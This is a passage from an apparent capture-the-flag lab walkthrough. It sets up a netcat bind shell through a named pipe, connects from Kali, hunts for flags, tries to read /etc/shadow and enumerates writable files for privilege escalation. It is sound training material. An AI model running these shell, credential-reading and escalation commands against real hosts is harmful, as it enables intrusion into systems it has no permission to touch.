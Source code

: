 ### 6.3 Execute the following command to have a more convenient bind shell access
```sh
rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh /tmp/pipe | nc -l 5555 > /tmp/pipe
# do you want to retrieve the command standard output? [Y/n/a] n
```

### 6.4 Execute the following command to establish a `nc` bind connection (Switch to another terminal on your **Kali**)
```sh
nc 10.0.3.193 5555
```

### 6.5 Execute some OS commands through the `nc` connection
```sh
whoami
pwd
locate flag{
# Identify the third flag
cat /var/www/flag{3b200052e26a8c685c53ab507ce4dca76cf53d9936fad0}.jpg
```

### 6.6 Identify a file with a promising filename
```sh
cd ..
ls
ls /var/www/upload
# leaks.zip
# Download the file from the web browser
http://10.0.3.193/upload/leaks.zip
# Read the files compressed
unzip leaks.zip
# The file is password protected
```

### 6.7 Realize also that you have limited access
```sh
cat /etc/shadow
# Access denied
```

## 7) Identify a vulnerable configuration

> **Duration:** 10 minutes
- Enumerate potential privilege escalation vulnerabilities
### 7.1 Identify a world-writable directory
```sh
find / -writable -type f ! -path "/proc/*" ! -path "/sys/*" ! -path "/var/www/*" -exec ls -al {} \; 2>/dev/null
```
